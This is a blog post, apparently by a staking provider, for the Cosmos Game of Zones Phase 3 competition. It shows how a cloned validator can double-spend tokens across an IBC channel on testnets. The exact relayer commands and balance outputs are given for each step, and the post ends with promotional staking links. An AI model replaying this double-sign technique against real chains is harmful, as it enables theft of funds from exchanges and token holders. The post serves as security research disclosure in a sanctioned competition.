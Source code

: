 ```yaml
---
title: "Cosmos' Game of Zones Phase 3: Double Spend via a Double Sign"
description: "For Game of Zones Phase 3 we show how malicious validators can double spend via IBC"
date: 2020-06-05
thumbnail: 'https://i.imgur.com/T4m2bqR.png'
heroImage: 'https://i.imgur.com/T4m2bqR.png'
layout: Post
category:
  - cosmos
authors:
  - vshvsh
company:
 - p2p

---
```

# Cosmos' Game of Zones Phase 3: Double Spend via a Double Sign

We'll show how malicious validators (or validator keys thieves) can double-spend via IBC transfers using vanilla Tendermint, cosmos-sdk and relayer software.

For an experiment we have two chains: `p2p-org-3` and `responsible-3`. On p2p-org-3 there are 1000, no more and no less, of very valuable tokens with `scarce` denom. Using our trick we can make `responsible-3` accept a total sum of `2000scarce` via a channel.

## Double spend via a double sign step by step

To double spend we: 

1. Open a channel from p2p-org-3 to responsible-3
2. Stop a single validator of p2p-org-3, replicated it in two copies (let's call them `p2p-org-3.1` and `p2p-org-3.2`, though they still have an original chain-id of `p2p-org-3`) and start again in two different exemplars.

```
p2p-org-3.2$ rly q bal p2p-org-3
100000000000ptp,1000scarce
p2p-org-3.2$ rly q bal responsible-3
100000000000root,996000rsp,10transfer/hvigvvmjhcqwerty/ptp
```

3. Send 1000 scarce from `p2p-org-3.1`to `responsible-3`.
```
p2p-org-3.1$ rly tx transfer p2p-org-3 responsible-3 1000scarce true $(rly ch addr responsible-3)
I[2020-06-04|23:36:45.775] ✔ [p2p-org-3]@{68672} - msg(0:transfer) hash(13628DFA68099121C323DB7C2369489E1AFB71C2737B3D92B1BACAF5A9CFBB01)
I[2020-06-04|23:36:56.725] ✔ [responsible-3]@{68908} - msg(0:update_client,1:ics04/opaque) hash(50F3730A339AE60A1FDB4FADF484EA8FDC870E9E46C8362BEE328D7D324FDDE8)
p2p-org-3.1$ rly q bal p2p-org-3
99999999500ptp
p2p-org-3.1$ rly q bal responsible-3
100000000000root,995500rsp,10transfer/hvigvvmjhcqwerty/ptp,1000transfer/hvigvvmjhcqwerty/scarce
```

4. Switch to `p2p-org-3.2`'s terminal - there we still have `1000scarce`

```
p2p-org-3.2$ rly q bal p2p-org-3
100000000000ptp,1000scarce
p2p-org-3.2$ rly q bal responsible-3
100000000000root,995500rsp,10transfer/hvigvvmjhcqwerty/ptp,1000transfer/hvigvvmjhcqwerty/scarce
```


5. Send a bogus transfer (`100ptp`) from `p2p-org-3.2` to `responsible-3` - it fails on `responsible-3` but we bump `p2p-org-3.2`'s packet count by one to be able to send further transfers succesfully.

```
p2p-org-3.2$ rly tx transfer p2p-org-3 responsible-3 100ptp true $(rly ch addr responsible-3)
I[2020-06-04|23:39:07.369] ✔ [p2p-org-3]@{68700} - msg(0:transfer) hash(EB8CAE3CDE96FF9073B54B5E6F70C43B83DA13A30E06D833AA107CEB94EE6279)
I[2020-06-04|23:39:14.274] ✘ [responsible-3]@{0} - msg(0:update_client,1:ics04/opaque) err(client:15:couldn't verify counterparty packet commitment: key mismatch on operation #0: expected commitments/ports/transfer/channels/hvigvvmjhcqwerty/packets/3 but got commitments/ports/transfer/channels/hvigvvmjhcqwerty/packets/2: packet commitment verification failed)
```

6. Succesfully send 1000 scarce from `p2p-org-3.2`to `responsible-3`.

```
p2p-org-3.2$ rly tx transfer p2p-org-3 responsible-3 1000scarce true $(rly ch addr responsible-3)
I[2020-06-04|23:40:02.589] ✔ [p2p-org-3]@{68711} - msg(0:transfer) hash(83DFA4FB75D22220ECD94F134D8A8AE5BC0D0075D2DA6021B8DA6C4688E28787)
I[2020-06-04|23:40:12.237] ✔ [responsible-3]@{68947} - msg(0:update_client,1:ics04/opaque) hash(DD11048F41B6D0955EAC84D311DEF5DAD9A3F446398A59293C82A62D84F6B506)
p2p-org-3.2$ rly q bal p2p-org-3
99999998900ptp
gaia@ibc3-p2p-validator-2:/home/deploy$ rly q bal responsible-3
100000000000root,995000rsp,10transfer/hvigvvmjhcqwerty/ptp,2000transfer/hvigvvmjhcqwerty/scarce
```

We think that if there's ever a real attack with stolen keys or malicious validators involved, it'll be carried out with a combination of running a fork + using modified software that can issue arbitrary IBC packets (like our own RootChain).

-----
*The best way to support our contribution is to [stake ATOM with P2P Validador](https://p2p.org/cosmos?utm_source=blog&utm_medium=economy&utm_campaign=phase3_post).*

---

[P2P Validator](https://p2p.org/?utm_source=blog&utm_medium=economy&utm_campaign=phase3_post) is a world-leading non-custodial staking provider securing more than $40 million by over 1000 delegators/nominators across 15+ top-notch networks. We've been validating in Cosmos Hub since the first day of mainnet. P2P Validator provides comprehensive due-diligence and invested its own funds in ATOM in 2017 intending to support Cosmos network in the long term.

**Web:**[ https://p2p.org](https://p2p.org/?utm_source=blog&utm_medium=economy&utm_campaign=phase3_post)

**Stake ATOM with us:** [p2p.org/cosmos](https://p2p.org/cosmos?utm_source=blog&utm_medium=economy&utm_campaign=phase3_post)

**Twitter:**[ @p2pvalidator](https://twitter.com/p2pvalidator)

**Telegram:** [https://t.me/P2Pstaking](https://t.me/P2Pstaking)
